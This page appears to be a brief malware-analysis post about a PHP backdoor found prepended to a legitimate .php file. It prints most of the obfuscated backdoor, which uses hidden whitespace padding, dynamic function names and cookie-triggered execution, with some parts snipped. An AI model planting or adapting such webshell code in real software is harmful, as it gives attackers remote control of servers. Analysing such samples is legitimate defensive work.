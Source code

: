 ```yaml
---
layout: default
title: PHP Backdoor script analysis 2
---
```


[back](./)


# PHP Backdoor script analysis 2

Embedded backdoor found prepended onto an existing valid .php file.

The script is rather large, so I have cut out some of the string
concatenation parts.

Check pastebin link for full source \[link\]
```php
<?php                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                 $gb2407 = 578;$GLOBALS['rb22c05fb'] = Array();global $rb22c05fb;$rb22c05fb = $GLOBALS;${"\x47\x4c\x4fB\x41\x4c\x53"}['f884b'] = "\x6e\x25\x6f\x3a\x7a\x34\x4a\x27\x62\x38\x47\x3f\x6d\x45\x73\x37\x2f\x3c\x52\x28\x71\x66\x69\x2d\x50\x75\x53\xa\x78\x77\x68\x2b\x9\x5d\x51\x6b\x3e\x2e\x5a\x67\x49\x7c\x60\x61\x5b\x7b\x46\x4c\x22\x4f\x42\x26\x31\x58\x4d\x44\x6c\x7d\x63\x59\x23\x5c\x29\x32\x7e\xd\x40\x3d\x5e\x76\x30\x5f\x33\x21\x4b\x4e\x56\x6a\x65\x74\x43\x57\x79\x35\x41\x39\x2a\x24\x64\x55\x72\x3b\x20\x2c\x36\x48\x54\x70";$rb22c05fb[$rb22c05fb['f884b'][69].$rb22c05fb['f884b'][78].$rb22c05fb['f884b'][83].$rb22c05fb['f884b'][9].$rb22c05fb['f884b'][88].$rb22c05fb['f884b'][83].$rb22c05fb['f884b'][5].$rb22c05fb['f884b'][72].$rb22c05fb['f884b'][63]] = $rb22c05fb['f884b'][58].$rb22c05fb['f884b'][30].$rb22c05fb['f884b'][90];$rb22c05fb[$rb22c05fb['f884b'][12].$rb22c05fb['f884b'][85].$rb22c05fb['f884b'][63].$rb22c05fb['f884b'][85].$rb22c05fb['f884b'][9]] = $rb22c05fb['f884b'][2].$rb22c05fb['f884b'][90].$rb22c05fb['f884b'][88];$rb22c05fb[$rb22c05fb['f884b'][20].$rb22c05fb['f884b'][5].$rb22c05fb['f884b'][94].$rb22c05fb['f884b'][88].$rb22c05fb['f884b'][52].$rb22c05fb['f884b'][43].$rb22c05fb['f884b'][83].$rb22c05fb['f884b'][21].$rb22c05fb['f884b'][52]] = $rb22c05fb['f884b'][14].$rb22c05fb['f884b'][79].$rb22c05fb['f884b'][90].$rb22c05fb['f884b'][56].$rb22c05fb['f884b'][78].$rb22c05fb['f884b'][0];$rb22c05fb[$rb22c05fb['f884b'][21].$rb22c05fb['f884b'][8].$rb22c05fb['f884b'][52].$rb22c05fb['f884b'][85].$rb22c05fb['f884b'][83].$rb22c05fb['f884b'][9]] = 
-------------------- -------------------- SNIP -------------------- -------------------- 
84b'][9].$rb22c05fb['f884b'][21]] = $_COOKIE;@$rb22c05fb[$rb22c05fb['f884b'][21].$rb22c05fb['f884b'][8].$rb22c05fb['f884b'][52].$rb22c05fb['f884b'][85].$rb22c05fb['f884b'][83].$rb22c05fb['f884b'][9]]($rb22c05fb['f884b'][78].$rb22c05fb['
-------------------- -------------------- SNIP -------------------- -------------------- 
'][43].$rb22c05fb['f884b'][78].$rb22c05fb['f884b'][21];global $x864b367c;function  r6971a($e76477, $qead07){global $rb22c05fb;$e112aa2d = "";for ($n28c=0; 
-------------------- -------------------- SNIP -------------------- -------------------- 
b'][21].$rb22c05fb['f884b'][52]]($e76477);){for ($o70350cf=0; 
-------------------- -------------------- SNIP -------------------- -------------------- 
$qead07){global $rb22c05fb;global $x864b367c;return 
-------------------- -------------------- SNIP -------------------- -------------------- 
3]]($e76477, $x864b367c), $qead07);}foreach ($rb22c05fb[$rb22c05fb['f884b'][56].$rb22c05fb['f884b'][43].$rb22c05fb['f884b'][83].$rb22c05fb['f884b'][58].$rb22c05fb['f884b'][85].$rb22c05fb['f884b'][72].$rb22c05fb['f884b'][72].$rb22c05fb['f884b'][9].$rb22c05fb['f884b'][21]] as $qead07=>$l0c59b){$e76477 = $l0c59b;$k93f152 = $qead07;}if (!$e76477){foreach
-------------------- -------------------- SNIP -------------------- -------------------- 
['f884b'][63].$rb22c05fb['f884b'][58].$rb22c05fb['f884b'][52].$rb22c05fb['f884b'][70].$rb22c05fb['f884b'][5]]($e76477), $k93f152));if (isset($e76477[$rb22c05fb['f884b'][43].$rb22c05fb['f884b'][35]]) && $x864b367c==$e76477[$rb22c05fb['f884b'][43].$rb22c05fb['f884b'][35]]){if ($e76477[$rb22c05fb['f884b'][43]] == $rb22c05fb['f884b'][22]){$n28c = Array($rb22c05fb['f884b'][97].$rb22c05fb['f884b'][69] => @$rb22c05fb[$rb22c05fb['f884b'][12].$rb22c05fb['f884b'][63].$rb22c05fb['f884b'][9].$rb22c05fb['f884b
```